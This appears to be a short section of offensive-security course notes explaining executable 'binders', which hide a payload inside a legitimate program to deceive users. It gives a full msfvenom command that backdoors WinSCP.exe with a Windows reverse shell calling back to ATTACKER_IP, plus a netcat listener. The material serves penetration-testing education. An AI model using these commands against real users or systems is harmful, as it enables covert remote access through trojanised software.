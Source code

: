# Binders

A binder is a program that merges two (or more) executables into a single one. It is often used when to distribute a 
payload hidden inside another known program to fool users into believing they are executing a different program.

You can easily plant a payload of your preference in any `.exe` file with msfvenom. The binary will still work as 
usual but execute an additional payload silently. The method used by msfvenom injects the malicious program by 
creating an extra thread for it. Having a separate thread is even better, since your program won't get blocked in 
case the shellcode fails for some reason.

To create a backdoored `WinSCP.exe`:

    C:\> msfvenom -x WinSCP.exe -k -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=7779 -f exe -o WinSCP-evil.exe

Set up a listener:

    $ nc -lvp 7779

## Binders and AV

Binders won't do much to hide a payload from an AV solution. The simple fact of joining two executables without any 
changes means that the resulting executable will still trigger any signature that the original payload did.

The main use of binders is to fool users into believing they are executing a legitimate executable rather than a 
malicious payload.
